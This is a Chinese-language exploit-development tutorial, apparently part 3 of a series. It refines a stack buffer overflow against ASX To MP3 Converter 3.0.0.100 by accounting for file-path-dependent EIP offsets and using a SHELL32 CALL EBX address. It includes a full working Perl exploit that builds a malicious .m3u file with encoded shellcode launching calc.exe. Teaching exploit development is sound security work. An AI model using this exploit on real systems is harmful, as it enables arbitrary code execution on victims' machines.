







## 概观
在第2部分中，我们为ASX To MP3 Converter构建了一个基本的栈溢出攻击。正如我在那篇文章中指出的那样，利用本身并不完美。成功的EIP覆盖受m3u文件的文件路径的影响。另外，虽然在选择跳转/调用地址时首选应用程序模块，但我们使用的应用程序DLL是重新分配的，这意味着我们的CALL EBX指令的地址可能会更改，因此不可靠。在这一部分中，我们将仔细研究这些问题以及一些可以改进我们的原始漏洞使其更可靠的方法。 
## 更改EIP偏移量
我在第2部分强调的一件事情是，如果m3u文件是从C：\目录的根目录运行的，ASX To MP3 Converter的漏洞利用工作才起作用，因为EIP覆盖的偏移取决于文件路径。如果要验证，请尝试将m3u文件从C：\移动到桌面，然后重试调试器中的漏洞。请参阅下面的屏幕截图。  

正如您所看到的，EIP现在不会被我们的CALL EBX指令覆盖，而是被我们payload的前面“垃圾”部分覆盖，这部分由A（\ x41）组成。由于较长的文件路径被合并到有效载荷中，因此它将所有内容都推向右侧，并将EIP更改为'AAAA'。

如果您记得，我们完整的exploit缓冲区看起来像这样：

EIP的偏移量（当m3u文件位于C：\的根目录时）为26,121字节。正如我们通过将m3u文件移动到桌面所证明的那样，较长的文件路径会导致EIP覆盖为A。如果文件路径是对偏移量的唯一影响，我们应该能够准确预测新偏移量。让我们为m3u文件选择一个不同的保存位置来证明这一理论。位于我的桌面上的m3u文件的完整路径如下（其中Documents and Settings \ Administrator \ Desktop \是较c:\多出来的路径长度）：

    C：\Documents and Settings \ Administrator \ Desktop \ asx2mp3.m3u

这条新路径长45个字符，这意味着我们应该调整我们的EIP偏移-45，新的偏移量26076。让我们更新我们的漏洞利用代码，看看它是否有效（只改变你在第2部分中建立的利用漏洞的偏移量）

## 基于应用程序的模块

在重新启动的Windows计算机上运行具有更新偏移量的漏洞利用程序会产生以下结果：

EIP显然已被我选择的CALL EBX地址（来自MSA2Mcodec00.dll的0x01C27228）覆盖，但该程序似乎并未将其识别为有效地址。这里出现的问题，因为在我的漏洞利用代码中，我使用了来自重定位应用程序模块（DLL）的地址。

在没有详细介绍重新绑定的情况下，要明白每个模块都有一个指定的基地址，它应该加载在这个地址上（而且编译器通常有一个默认的地址分配给所有的模块）。

如果在加载时发生地址冲突，则操作系统必须重新绑定其中一个模块（从性能角度来看代价非常高）。或者，应用程序开发人员可能会提前重新绑定模块以避免此类冲突。

在我们的例子中，如果MSA2Mcodec00.dll重新绑定，地址空间会发生变化，我们的CALL EBX地址发生变化。不幸的是，这会影响成功利用的可靠性，这个问题比我们的文件路径问题更严重。

在这里我们有两个选择

1）看看我们是否能找到另一个没有实现重定位的应用程序模块（首选）

2）使用系统模块。

请记住，从第2部分中可以看出，使用系统DLL（相对于应用程序DLL）的缺点是它减少了漏洞在不同版本的Windows上运行的可能性。这就是说，在每台Windows XP机器上运行的漏洞利用程序要比只能在一台机器上运行的漏洞利用程序更好！

我们可以使用mona插件更仔细地检查加载的模块，并通过运行以下命令来查看哪些模块实施了重定位。
    
    !mona find -type instr -s "call ebx"

以下是生成的find.txt文件开头的截图。它显示了找到“call ebx”指令的所有模块，以及与这些模块中的每一个模块相关的属性，包括它们是否实施重定位（请注意“重定位”列）。

请注意，该列中有两个值为“False”（以橙色突出显示）。不幸的是，这两个模块中的所有“call ebx”地址都包含空字节。看起来我们别无选择，只能使用系统模块。我会选择其中一个较大的dll，如shell32，user32，kernel32或ntdll，因为它们可能不太可能在系统服务包之间进行更改。在find.txt文件中向下滚动以查看找到的实际“call ebx”地址。我将选择列出的第一个shell32地址（0x7c9f38f6）。

现在，我将使用SHELL32中新的CALL EBX地址（注意已更新的EIP偏移量）更新漏洞利用脚本，创建m3u文件，并从桌面运行它。

成功！！

## 更新漏洞利用以支持多个偏移

我们通过选择一个操作系统模块来克服我们的地址重定位问题，并验证了可以根据m3u exploit文件的路径大小来预测偏移量。

下一步是将多个偏移量合并到我们的漏洞利用代码中，以增加从不同位置成功执行的可能性。我们可以通过简单地包含重复偏移模式的缓冲区的垃圾部分（而不是使用A's，使用EIP + EIP + EIP等）来实现此目的。虽然这增加了成功利用的可能性，但由于常见的存储位置（桌面，我的文档等）可能会或可能不符合该模式，所以这是相当随意的。相反，我们可以生成可能的保存位置列表，并将偏移量放在我们的缓冲区中。我们可以手动做到这一点

最后我们将留下一个如下所示的缓冲区：

    JUNK（A's）+ EIP + JUNK（A's）+ EIP + JUNK（As）+ EIP ... + NOPS + SHELLCODE + FILL

当然，这不是非常高效的编码，并且使得添加和删除路径变得繁琐，因此我们利用脚本的强大功能，使其更容易管理。 

首先，我们将创建一组可能的路径。我创建了一个有几条可能的路径，尽管还有更多：

为了便于说明，我还包括了手动计算的偏移量（作为注释），通过编写偏移量创建脚本，我们不需要为每个文件路径实际执行此操作。接下来，我们创建一个循环，并使用数组的内容动态构建缓冲区的垃圾+ eip部分。

正如你上面看到的，我们只是循环访问数组，并使用每个文件路径的长度（减去共享的'C：\'）来策略地放置偏移量。  

我们的最终利用看起来像这样：

    #!/usr/bin/perl
     
    ######################################################################
    # Exploit Title: ASX to MP3 Converter 3.0.0.100 (.m3u) - Local BOF
    # Date: 11-16-2013
    # Exploit Author: Mike Czumak (T_v3rn1x) -- @SecuritySift
    # Vulnerable Software: ASX to MP3 Converter 3.0.0.100 
    # Software: http://www.mini-stream.net/asx-to-mp3-converter/download/
    # Tested On: Windows XP SP3
    # Credits: Older versions found to be vulnerable to similar bof
    # -- http://www.exploit-db.com/exploits/8629/
    ######################################################################
     
    my $buffsize = 50000; # sets buffer size for consistent sized payload
     
    # the application incorporates the path of the m3u file in the buffer 
    # this can hinder successful execution by changing the offset to eip
    # to make this more reliable, we'll create a buffer w/ several offsets
    # to potential file locations (desktop, my music, my playlists, etc)
    # if the m3u file is placed in any of these locations it should work
     
    # if the m3u file is saved in root dir (c:\, z:\, etc) eip offset = 26121
    # we can use that value to calculate other relative offsets based on file path length
     
    my @offsets = ( 'C:\Documents and Settings\Administrator\My Documents\My Music\My Playlists\\', # offset at 26049 
     'C:\Documents and Settings\All Users\Documents\My Music\My Playlists\\', # offset at 26056
     'C:\Documents and Settings\Administrator\My Documents\My Music\\', # offset at 26062
     'C:\Documents and Settings\All Users\Documents\My Music\\', # offset at 26069 
     'C:\Documents and Settings\Administrator\Desktop\\', # offset at 26076
     'C:\Documents and Settings\All Users\Desktop\\', # offset at 26080
     'C:\\'); # offset at 26121
     
    my $eip = pack('V', 0x7c9f38f6); # call ebp C:\Windows\System32\SHELL32.dll 
     
    $i = 0;
    foreach (@offsets) {
       $curr_offset = 26121 - (length($_)) + 3; # +3 for shared "c:\"
       $prev_offset = 26121 - (length($offsets[$i-1])) + 3; 
     
       if ($i eq 0){   
      # if it's the first offset build the junk buffer from 0
      $junk = "\x41" x $curr_offset; 
      # append the eip overwrite to the first offset
      $offset = $junk.$eip  
       } else {
      # build a junk buffer relative to the last offset
      $junk = "\x41" x (($curr_offset - $prev_offset) - 4);
      # append new junk buffer + eip to the previously constructed offset
      $offset = $offset.$junk.$eip;
       } 
     
       $i = $i + 1; # increment index counter
     
    }
     
    my $nops = "\x90" x 21400; # offset to shellcode at call ebp
     
    # Calc.exe payload [size 227]
    # msfpayload windows/exec CMD=calc.exe R | 
    # msfencode -e x86/shikata_ga_nai -c 1 -b '\x00\x0a\x0d\xff'
    my $shell = "\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9" .
    "\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92" .
    "\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84" .
    "\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e" .
    "\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1" .
    "\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27" .
    "\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb" .
    "\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b" .
    "\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2" .
    "\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37" .
    "\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3" .
    "\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef" .
    "\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb" .
    "\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf" .
    "\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83" .
    "\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3" .
    "\x9a\xca\xc0";
     
    my $sploit = $offset.$nops.$shell; 
    my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder
    my $buffer = $sploit.$fill; # build final buffer 
     
    # write the exploit buffer to file
    my $file = "asx2mp3.m3u";
    open(FILE, ">$file");
    print FILE $buffer;
    close(FILE);
    print "Exploit file created [" . $file . "]\n";
    print "Buffer size: " . length($buffer) . "\n"; 

如果您想要显示缓冲区的外观，请在文本编辑器中打开生成的m3u文件，您应该看到下面的偏移量：

即使这个更新的漏洞利用也不完美，因为我们使用了一个用于EIP覆盖的OS DLL以及有限数量的漏洞利用触发位置，但它肯定比我们第2部分的原始版本有所改进。 

除了改变受文件路径影响的偏移量之外，遇到具有由启动方式决定的多个偏移量的漏洞并不罕见。以最近发布的针对RealPlayer 16.0.3.51/16.0.2.32的漏洞为例它包含两个偏移量/ EIP覆盖 -

一个用于直接启动漏洞利用率.rmp文件，

一个用于在应用程序内打开漏洞。

如果漏洞代码本身看起来有些不同，那是因为它是一个基于SEH的缓冲区溢出，我们将在更多的帖子中讨论这个话题。现在，如果您选择在测试机器上尝试利用漏洞，则可能需要根据您的操作系统进行一些调整。如果您运行的是Windows XP SP3，则可能需要将$ junk2偏移量调整为10515，并根据您拥有的RealPlayer版本，您可能需要切换SEH值。 

虽然这些只是一些本地执行的具有更改/多种偏移的攻击的示例，但它们应该提供一些有关此问题在创建漏洞时如何表现出来的信息，以及如何解决该问题。

## 结论

在过去的两篇文章中，我们构建了一个非常基础的基于栈的缓冲区溢出攻击，并克服了由于漏洞利用文件路径的影响而改变EIP偏移量，并改变了由重定位应用程序DLL导致的模块寻址所带来的一些小问题。在下一篇文章中，我们将看看如何在不能使用简单的CALL / JMP指令到达shellcode的情况下使用跳转代码。